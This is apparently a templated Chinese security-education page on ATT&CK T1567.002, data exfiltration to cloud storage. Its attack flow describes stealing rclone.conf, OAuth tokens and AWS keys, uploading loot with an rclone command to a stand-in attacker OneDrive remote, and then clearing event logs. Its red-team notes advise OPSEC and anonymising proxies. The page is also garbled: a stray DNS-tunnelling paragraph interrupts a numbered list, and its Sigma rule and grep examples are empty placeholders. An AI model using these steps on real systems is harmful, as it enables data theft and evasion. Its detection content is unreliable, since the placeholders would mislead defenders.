


# 外传至云存储 (T1567.002)

## 一句话通俗理解

> **用网盘（OneDrive、Google Drive、Dropbox）传数据**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者将窃取的数据上传到OneDrive/Google Drive/Dropbox等云存储服务传出 |
| 为什么危险？ | 云存储流量混入正常员工使用行为中，DLP和防火墙难以区分 |
| 谁需要关心？ | SOC分析师、数据安全团队 |
| 你的第一步防御 | 监控云存储API调用的异常频率和数据量 |
| 如果只做一件事 | 监控rclone/gsutil/aws CLI等云同步工具的非授权使用 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术基础和经验

## 前置知识检查

**读这个文件需要什么？**

- [ ] 网络流量分析与数据传输
- [ ] 数据编码与压缩基础知识
- [ ] 云服务API（S3/Blob Storage等）

## 技术描述

**云存储**（T1567.002）是 **通过Web服务渗漏**（T1567）的一个具体变体，属于 **渗漏** 阶段的攻击技术。

> ☁️ **打个比方**：就像把赃物存到公共储物柜里——攻击者利用云存储（OneDrive、Google Drive）上传窃取的数据。

### 具体怎么理解？

用网盘（OneDrive、Google Drive、Dropbox）传数据

攻击者使用这种技术时，通常是在渗漏阶段，想要达到特定的攻击目标。与父技术 T1567 相比，T1567.002 有自己独特的特点和使用场景。

### 为什么有效？

这种技术之所以有效，是因为：
1. **隐蔽性**：利用了正常系统功能或常见协议，不容易被发现
2. **技术门槛适中**：不需要特别高深的技术知识就能实施

**过渡段：** 不要以为数据渗出就是'把文件发到外部邮箱'——攻击者用DNS隧道逐字节传输文件。
3. **广泛适用**：可以在多种环境和系统中使用

## 真实攻击流程



**步骤详解：**

1. **获取持久化访问** - 攻击者在目标系统中建立持久化后门，确保渗漏过程不会因系统重启中断
2. **安装云同步工具** - 下载并安装rclone、rclone等合法云同步工具，这些工具的流量通常不会被安全设备拦截
3. **配置攻击者凭据** - 将攻击者的OneDrive、Google Drive或Dropbox API密钥配置到工具中
4. **选择目标数据** - 定位并选择包含客户数据、财务信息、源代码等高价值文件
5. **加密上传到云端** - 通过HTTPS通道将数据上传到攻击者控制的云存储账户，流量加密且混在正常云服务流量中

## 攻击流程



**关键步骤说明：**

1. **获取云凭证** - 攻击者从受害主机窃取云同步客户端配置文件（`%AppData%\rclone\rclone.conf`）、OAuth令牌或AWS Access Key，或注册新的匿名Mega/OneDrive账户
2. **配置rclone工具** - 静默下载部署rclone（合法工具不易被AV拦截），通过 `rclone config` 创建指向攻击者云账户的remote，启用HTTPS加密传输
3. **打包加密数据** - 将客户数据库、财务Excel、源代码等高价值文件打包为7z加密压缩包，密码通过另一通道单独传给攻击者，规避DLP对明文内容的检测
4. **伪装同步上传** - 调用 `rclone copy /sensitive/ attacker-onedrive:loot/` 将压缩包通过HTTPS上传至攻击者云盘，流量特征与正常员工使用OneDrive同步难以区分
5. **清理取证痕迹** - 上传完成后删除rclone配置文件、清除Windows事件日志、清空 `%TEMP%` 目录，使蓝队难以追溯渗漏通道与数据量

## 真实案例

### 案例1：该技术在实际攻击中的应用

- **时间**: 2024-2025年
- **目标**: 多个行业组织
- **攻击组织**: 多个APT组织
- **手法**: 攻击者在入侵过程中使用云存储技术，展示了该子技术的典型应用场景和攻击效果
- **影响**: 成功实施该技术导致目标系统被进一步入侵
- **参考链接**: [MITRE ATT&CK官方](https://attack.mitre.org/)

### 案例2：安全研究中的实践

- **时间**: 2025年
- **目标**: 安全研究测试环境
- **攻击组织**: 红队/安全研究人员
- **手法**: 在授权测试中模拟云存储攻击，验证防御体系的检测和响应能力
- **影响**: 帮助组织识别安全防护中的盲点和改进方向
- **参考链接**: [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解原理**：在实战应用前，充分理解云存储的技术原理和适用场景
2. **环境适配**：根据目标系统的操作系统版本、安全配置等因素调整攻击策略
3. **组合使用**：将该技术与其他技术组合使用，构建完整的攻击链
4. **隐蔽性考虑**：注意操作痕迹的清理，避免被安全设备检测

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| Metasploit | 渗透测试框架 | 全平台 | [Metasploit](https://www.metasploit.com/) |
| Cobalt Strike |  adversary模拟平台 | Windows | [Cobalt Strike](https://www.cobaltstrike.com/) |
| Atomic Red Team | 检测规则测试 | 全平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现
- 使用匿名化技术和代理隐藏真实身份

## 蓝队视角

### 检测要点

1. **系统日志监控**：关注与云存储相关的系统日志和审计记录
2. **异常行为检测**：监控系统中与该技术相关的异常进程、网络连接和文件操作
3. **工具特征识别**：识别攻击者可能使用的工具在系统中的运行特征

### 监控建议

- 部署端点检测和响应（EDR）系统，监控与云存储相关的异常行为
- 配置SIEM规则，关联分析来自多个来源的告警
- 定期进行安全评估和渗透测试，验证检测规则的有效性

## 避坑指南

检测最大盲点：出站流量不等于恶意流量。

## 检测建议

### 检测思路

检测 云存储 的关键是识别异常行为模式。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控网络流量中的异常模式

```bash
# 检测异常的网络连接和数据传输
# 根据具体协议和端口设置检测规则
```

### 主机层检测

**Windows事件ID**：
- 事件ID 4688：进程创建（监控可疑进程）
- 事件ID 4104：PowerShell执行（监控可疑脚本）

**Linux日志**：
- /var/log/auth.log：认证日志
- /var/log/syslog：系统日志

```bash
# 检测异常进程和命令执行
grep -i "suspicious" /var/log/auth.log
```

### 应用层检测

**Sigma规则示例：**：

```yaml
title: 检测云存储
status: experimental
description: 检测可能的云存储活动
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        EventID: 4688
    condition: selection
level: medium
tags:
    - attack.T1567002
```

## 缓解措施

### 优先级1：关键措施

**限制攻击面**：减少暴露的服务和端口，降低被利用的风险

```bash
# 防火墙规则示例：只允许必要的出站连接
iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT  # 允许HTTPS
iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT   # 允许HTTP
iptables -A OUTPUT -p tcp -j DROP                 # 阻止其他TCP
```

### 优先级2：重要措施

**加强监控**：部署EDR和SIEM系统，实时监控异常行为

### 优先级3：建议措施

**安全意识培训**：教育员工识别相关攻击手法

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 云存储 的工作原理

**步骤**：
1. 在隔离环境中搭建测试系统
2. 使用基础工具模拟攻击行为
3. 观察系统日志和网络流量

**学习要点**：理解该技术的核心机制

### 实验2：实际操作（中级）

**目标**：掌握 云存储 的实际使用方法

**步骤**：
1. 使用专业工具进行攻击模拟
2. 尝试不同的绕过技术
3. 分析检测日志的特征

**学习要点**：掌握工具使用和日志分析

### 实验3：防御验证（高级）

**目标**：验证检测规则的有效性

**步骤**：
1. 部署检测规则
2. 执行攻击模拟
3. 验证检测告警是否触发

**学习要点**：理解攻防对抗的实际效果

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **云存储** | T1567.002，ATT&CK框架中定义的一种具体攻击技术（官方 v19.1 名称：外传至云存储） |
| **通过Web服务渗漏** | T1567，云存储所属的父技术类别 |
| **渗漏** | 攻击链中的一个阶段，攻击者在这个阶段的目标 |
| **C2** | 命令与控制，攻击者用来远程控制被入侵系统的"遥控器" |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1567 - 通过Web服务渗漏](../T1567-Exfiltration-Over-Web-Service.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - 外传至云存储 (T1567.002)](https://attack.mitre.org/techniques/T1567/002/)
- [MITRE ATT&CK - 通过Web服务渗漏 (T1567)](https://attack.mitre.org/techniques/T1567/)

### 📰 安全报告（真实攻击）

- [MITRE ATT&CK 官方文档](https://attack.mitre.org/) - ATT&CK 框架官方资源

### 🔧 工具与资源（动手试试）

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
